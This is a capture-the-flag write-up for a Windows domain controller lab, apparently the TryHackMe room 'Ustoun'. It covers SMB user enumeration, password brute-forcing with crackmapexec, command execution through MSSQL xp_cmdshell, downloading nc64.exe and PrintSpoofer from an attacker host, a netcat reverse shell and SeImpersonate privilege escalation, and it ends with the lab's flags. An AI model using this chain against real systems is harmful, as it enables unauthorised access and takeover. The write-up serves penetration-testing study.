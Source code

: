 USTOUN
======

# Basic Enumeration 

Using nmap to scan alive ports and services `-Pn` because 
it's windows machine

`nmap --min-rate 300 -Pn -A -oN initial ustoun.thm`


```
PORT     STATE SERVICE        VERSION
53/tcp   open  domain         Simple DNS Plus
88/tcp   open  kerberos-sec   Microsoft Windows Kerberos (server time: 2021-05-17 04:53:58Z)
135/tcp  open  msrpc          Microsoft Windows RPC
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
389/tcp  open  ldap           Microsoft Windows Active Directory LDAP (Domain: ustoun.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http     Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap           Microsoft Windows Active Directory LDAP (Domain: ustoun.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: DC01
|   NetBIOS_Domain_Name: DC01
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: ustoun.local
|   DNS_Computer_Name: DC.ustoun.local
|   DNS_Tree_Name: ustoun.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-05-17T04:55:06+00:00
| ssl-cert: Subject: commonName=DC.ustoun.local
| Not valid before: 2021-01-31T19:39:34
|_Not valid after:  2021-08-02T19:39:34
|_ssl-date: 2021-05-17T04:55:15+00:00; +55s from scanner time.
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 54s, deviation: 0s, median: 54s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-05-17T04:55:09
|_  start_date: N/A
```

# USER FLAG

SMB is running now scan for if we can read or write to any share

`smbmap -H ustoun.thm -u anonymous`

![smbmap-scan1](/screenshot/smbmap-scan1.png)

IPC$ share is readable so we can enumerate users.

`lookupsid.py anonymous@ustoun.thm`

![lookupsid](/screenshot/lookupsid.png)

Edit list and put users into list for furthur enumeration

```
cat userlist.txt


Administrator
Guest
krbtgt
DC$
SVC-Kerb
```

There are lot of usefull tools in impacket, using tool named `GetNPUsers.py` we gonna look for any available hashes.
unfortunatly we won't find any hashes. 

I try to Bruteforce all users together it take alot time for,
im to bruteforce user `krbtgt` and `SVC-Kerb` separatly.


`crackmapexec smb ustoun.thm -u 'SVC-Kerb' -p /opt/rockyou.txt` 

![crackmapexec](/screenshot/crackmapexec.png)

With this creds i checked available SMB for any file but no luck.

Lets see if same password used in other services also, lets try to access mssql

`mssqlclient.py ustoun.local/SVC-Kerb:superman@ustoun.thm`

login is success, after some reserach found out we can execute command using `EXEC xp_cmdshell` with that help we can get stable shell.

![mssql](/screenshot/mssql.png)

Download and upload nc.exe and get shell.
**[NC](https://github.com/int0x33/nc.exe/blob/master/nc64.exe)**

```
+ sudo python3 -m http.server 80

+ SQL> EXEC xp_cmdshell 'mkdir C:\munaz'

+ SQL> EXEC xp_cmdshell 'powershell.exe -c curl http://$IP/nc64.exe -o C:\munaz\nc64.exe'

+ SQL> EXEC xp_cmdshell 'C:\munaz\nc64.exe -e cmd $IP 443'
```

![upload](/screenshot/upload.png)

make lister and execute the nc.

![nc-shell](/screenshot/nc-shell.png)

# ROOT FLAG

We got shell but we do not have enough permission to read `user.txt` so we need to escalate privilege 

![user-flag](/screenshot/userflag.png)

Lets see what privilege we have using this command `whoami /priv`

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We have **SeImpersonatePrivilege** permission, using [PrintSpoofer](https://github.com/dievus/printspoofer) we can escalate privilege

`powershell.exe -c curl http://$IP/PrintSpoofer.exe -o C:\munaz\PrintSpoofer.exe`

using above command upload it then execute it with this command give to root access.

`PrintSpoofer.exe -i -c cmd`

![root-flag](/screenshot/rootflag.png)

# Flags

+ THM{MSSQL_IS_COOL}

+ THM{I_L1kE_gPoS}
